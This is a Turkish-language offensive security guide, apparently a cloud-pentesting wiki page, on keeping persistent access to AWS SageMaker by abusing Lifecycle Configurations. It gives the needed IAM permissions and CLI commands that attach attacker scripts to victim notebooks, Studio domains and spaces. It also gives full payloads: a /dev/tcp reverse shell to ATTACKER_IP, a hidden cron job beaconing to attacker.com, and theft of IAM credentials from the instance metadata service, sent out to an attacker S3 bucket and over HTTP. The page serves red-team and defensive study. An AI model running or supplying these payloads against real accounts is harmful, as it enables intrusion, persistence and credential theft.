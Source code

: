 # AWS - SageMaker Yaşam Döngüsü Yapılandırması Sürekliliği

## Süreklilik Tekniklerinin Genel Görünümü

Bu bölüm, Lifecycle Configurations (LCC'ler) kullanarak SageMaker'da süreklilik sağlama yöntemlerini, ters shell'ler, cron işleri, IMDS üzerinden kimlik bilgisi hırsızlığı ve SSH arka kapıları dahil olmak üzere özetlemektedir. Bu betikler, örneğin IAM rolü ile çalışır ve yeniden başlatmalar arasında kalıcı olabilir. Çoğu teknik, dışa dönük ağ erişimi gerektirir, ancak AWS kontrol düzlemindeki hizmetlerin kullanımı, ortam 'VPC-sadece' modunda olsa bile başarıyı sağlayabilir.
#### Not: SageMaker not defteri örnekleri, esasen makine öğrenimi iş yükleri için özel olarak yapılandırılmış yönetilen EC2 örnekleridir.

## Gerekli İzinler
* Not Defteri Örnekleri:
```
sagemaker:CreateNotebookInstanceLifecycleConfig
sagemaker:UpdateNotebookInstanceLifecycleConfig
sagemaker:CreateNotebookInstance
sagemaker:UpdateNotebookInstance
```
* Stüdyo Uygulamaları:
```
sagemaker:CreateStudioLifecycleConfig
sagemaker:UpdateStudioLifecycleConfig
sagemaker:UpdateUserProfile
sagemaker:UpdateSpace
sagemaker:UpdateDomain
```
## Notebook Örneklerinde Yaşam Döngüsü Yapılandırmasını Ayarlama

### Örnek AWS CLI Komutları:
```bash
# Create Lifecycle Configuration*

aws sagemaker create-notebook-instance-lifecycle-config \
--notebook-instance-lifecycle-config-name attacker-lcc \
--on-start Content=$(base64 -w0 reverse_shell.sh)


# Attach Lifecycle Configuration to Notebook Instance*

aws sagemaker update-notebook-instance \
--notebook-instance-name victim-instance \
--lifecycle-config-name attacker-lcc
```
## SageMaker Studio'da Yaşam Döngüsü Yapılandırmasını Ayarlama

Yaşam döngüsü yapılandırmaları, SageMaker Studio içinde çeşitli seviyelerde ve farklı uygulama türlerine eklenebilir.

### Stüdyo Alanı Seviyesi (Tüm Kullanıcılar)
```bash
# Create Studio Lifecycle Configuration*

aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-studio-lcc \
--studio-lifecycle-config-app-type JupyterServer \
--studio-lifecycle-config-content $(base64 -w0 reverse_shell.sh)


# Apply LCC to entire Studio Domain*

aws sagemaker update-domain --domain-id <DOMAIN_ID> --default-user-settings '{
"JupyterServerAppSettings": {
"DefaultResourceSpec": {"LifecycleConfigArn": "<LCC_ARN>"}
}
}'
```
### Stüdyo Alanı Seviyesi (Bireysel veya Paylaşılan Alanlar)
```bash
# Update SageMaker Studio Space to attach LCC*

aws sagemaker update-space --domain-id <DOMAIN_ID> --space-name <SPACE_NAME> --space-settings '{
"JupyterServerAppSettings": {
"DefaultResourceSpec": {"LifecycleConfigArn": "<LCC_ARN>"}
}
}'
```
## Studio Uygulama Yaşam Döngüsü Yapılandırma Türleri

Yaşam döngüsü yapılandırmaları, farklı SageMaker Studio uygulama türlerine özel olarak uygulanabilir:
* JupyterServer: Jupyter sunucusu başlatıldığında betikleri çalıştırır, ters shell ve cron işleri gibi kalıcılık mekanizmaları için idealdir.
* KernelGateway: Kernel gateway uygulaması başlatıldığında çalıştırılır, başlangıç ayarları veya kalıcı erişim için kullanışlıdır.
* CodeEditor: Kod Düzenleyici'ye (Code-OSS) uygulanır ve kod düzenleme oturumları başladığında çalışan betikleri etkinleştirir.

### Her Tür için Örnek Komut:

### JupyterServer
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-jupyter-lcc \
--studio-lifecycle-config-app-type JupyterServer \
--studio-lifecycle-config-content $(base64 -w0 reverse_shell.sh)
```
### KernelGateway
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-kernelgateway-lcc \
--studio-lifecycle-config-app-type KernelGateway \
--studio-lifecycle-config-content $(base64 -w0 kernel_persist.sh)
```
### CodeEditor
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-codeeditor-lcc \
--studio-lifecycle-config-app-type CodeEditor \
--studio-lifecycle-config-content $(base64 -w0 editor_persist.sh)
```
### Kritik Bilgiler:
* Alan veya alan seviyesi LCC'lerin eklenmesi, kapsam içindeki tüm kullanıcıları veya uygulamaları etkiler.
* Genellikle alan seviyesinden daha uygulanabilir olan daha yüksek izinler gerektirir (sagemaker:UpdateDomain, sagemaker:UpdateSpace).
* Ağ seviyesi kontrolleri (örneğin, katı çıkış filtrelemesi) başarılı ters shell'leri veya veri sızdırılmasını engelleyebilir.

## Yaşam Döngüsü Yapılandırması ile Ters Shell

SageMaker Yaşam Döngüsü Yapılandırmaları (LCC'ler), not defteri örnekleri başladığında özel betikler çalıştırır. İzinlere sahip bir saldırgan, kalıcı bir ters shell kurabilir.

### Yük Örneği:
```
#!/bin/bash
ATTACKER_IP="<ATTACKER_IP>"
ATTACKER_PORT="<ATTACKER_PORT>"
nohup bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1 &
```
## Cron Job Persistence via Lifecycle Configuration

Bir saldırgan, LCC scriptleri aracılığıyla cron işleri enjekte edebilir, kötü niyetli scriptlerin veya komutların periyodik olarak çalıştırılmasını sağlayarak gizli bir kalıcılık elde edebilir.

### Payload Example:
```
#!/bin/bash
PAYLOAD_PATH="/home/ec2-user/SageMaker/.local_tasks/persist.py"
CRON_CMD="/usr/bin/python3 $PAYLOAD_PATH"
CRON_JOB="*/30 * * * * $CRON_CMD"

mkdir -p /home/ec2-user/SageMaker/.local_tasks
echo 'import os; os.system("curl -X POST http://attacker.com/beacon")' > $PAYLOAD_PATH
chmod +x $PAYLOAD_PATH

(crontab -u ec2-user -l 2>/dev/null | grep -Fq "$CRON_CMD") || (crontab -u ec2-user -l 2>/dev/null; echo "$CRON_JOB") | crontab -u ec2-user -
```
## Kimlik Bilgilerinin IMDS (v1 & v2) Üzerinden Sızdırılması

Yaşam döngüsü yapılandırmaları, IAM kimlik bilgilerini almak ve bunları saldırgan kontrolündeki bir konuma sızdırmak için Instance Metadata Service (IMDS) ile sorgu yapabilir.

### Yük Örneği:
```bash
#!/bin/bash
ATTACKER_BUCKET="s3://attacker-controlled-bucket"
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
ROLE_NAME=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/)
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME > /tmp/creds.json

# Exfiltrate via S3*

aws s3 cp /tmp/creds.json $ATTACKER_BUCKET/$(hostname)-creds.json

# Alternatively, exfiltrate via HTTP POST*

curl -X POST -F "file=@/tmp/creds.json" http://attacker.com/upload
```

